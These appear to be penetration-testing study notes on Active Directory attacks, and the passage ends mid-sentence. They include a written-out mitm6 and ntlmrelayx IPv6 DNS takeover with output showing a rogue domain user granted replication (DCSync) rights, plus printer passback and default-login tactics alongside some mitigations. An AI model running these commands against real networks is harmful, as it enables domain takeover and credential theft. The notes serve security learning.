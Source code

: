 ### Mitigation
- Enable SMB signing
- Disable NTLM auth
- limit domain / local admins
- LDAP relay
- MiTM6
- difficult to detect

#### IPv6 DNS Takeover

- More reliable
- Probable IPv6 DNS hole
- Authentication to DC via LDAP
- [mitm6:](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [Combining NTLM Relays and Kerberos Delegation:](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

```bash
ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo git clone https://github.com/dirkjanm/mitm6 /opt/mitm6
sudo python3 mitm6.py -d basejump.local

sudo ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo python3 mitm6.py -d basejump.local
```
> Output
```
[*] Adding new user with username: YLzmriDGhj and password: ,JtM/MDi:z1G+OO result: OK
[*] Querying domain security descriptor
[*] Success! User YLzmriDGhj now has Replication-Get-Changes-All privileges on the domain

```

#### IPv6 Attack Defenses

- Disable WPAD WinHttpAutoProxySvc service
- LDAP signing / LDAPS channel binding
- Block Admin Delegation


#### Passback attack
Looking for access to LDAP / SMB / SMTP / Other connections of peripherials

- [Passback attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)
- MFPs = Multi-Function Peripherials [printers]
- Management Pages - LDAP Server = $(AttackingIP)

### Other vectors & approaches

- Start with MitM6 or Responder
- Nessus & nmap scan
    - SMB signing not active
- Run scans and generate traffic
- Listen for clear text creds on other systems
    - phone systems
    - Copier scanner
- Look for Websites [metasploit / http_version]
- Default Logins
    - Printers [scan to computer with admin rights]
    - Work flow applications
- Find unique / unusual methods in
